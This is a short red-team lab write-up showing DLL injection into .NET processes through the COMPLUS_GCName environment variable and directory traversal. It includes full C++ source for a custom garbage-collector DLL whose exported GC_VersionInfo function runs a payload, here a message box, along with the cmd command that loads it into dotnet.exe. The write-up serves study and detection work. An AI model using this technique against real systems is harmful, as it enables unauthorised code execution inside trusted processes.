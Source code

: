 ```yaml
---
layout: post
title: "injecting dll via custom .net garbage collector environment variable complus_gcname"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-dll-via-custom-.net-garbage-collector-environment-variable-complus_gcname/
---
```


---
layout: post
title: "injecting dll via custom .net garbage collector environment variable complus_gcname"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /injecting-dll-via-custom-.net-garbage-collector-environment-variable-complus_gcname/
---

# DLL Injection via a Custom .NET Garbage Collector

This is a quick lab to test a DLL injection technique discovered by [@am0nsec](https://twitter.com/am0nsec), which he describes in his blogpost [https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector](https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector) - go check it out!

The idea behind this technique is that a low privileged user can specify a custom Garbage Collector (GC), that a  .NET application should use. A custom GC can be specified by setting a command shell environment variable `COMPLUS_GCName`, that points to a malicious DLL which represents a custom Garbage Collector.

{% hint style="warning" %}
Normally, specifying a custom GC requires administartor privileges, however, since path to a custom GC in `COMPLUS_GCName` is not sanitized when a custom GC is loaded, directory traversal allows **any** unprivileged user to specify a custom GC to be loaded from an arbitrary location to which they can drop their DLL.
{% endhint %}

The Gargage Collector DLL needs to export `GC_VersionInfo` method for this technique to work - this is the method that will contain our payload, that will be executed once a .NET program starts and loads our custom GC DLL.

## Execution

Let's create a DLL that represents a custom Garbage Collector. It needs to export a function `GC_VersionInfo`, which in our case executes a simple message box:

```cpp
#include <Windows.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

struct VersionInfo
{
    UINT32 MajorVersion;
    UINT32 MinorVersion;
    UINT32 BuildVersion;
    const char* Name;

};

extern "C" __declspec(dllexport) void GC_VersionInfo(VersionInfo * info)
{
    info->BuildVersion = 0;
    info->MinorVersion = 0;
    info->BuildVersion = 0;
    MessageBoxA(NULL, "Injection", "Injection", 0);
}
```

Once the DLL is compiled, we can set the `COMPLUS_GCName` environment variable in our cmd.exe shell and point it to the compiled DLL:

```
set COMPLUS_GCName=..\..\..\..\..\..\..\..\..\..\..\..\..\labs\GarbageCollector\GC\x64\Release\GC.dll & dotnet.exe -h
```

We can execute any .NET binary found on the system and it will load our GC.dll. In this lab, we do:

```
dotnet.exe -h
```

Below shows that our GC.dll got injected into the dotnet.exe:

![](<../../.gitbook/assets/image (571).png>)

## References

{% embed url="https://www.contextis.com/us/blog/bring-your-own-.net-core-garbage-collector" %}
@spotheplanet

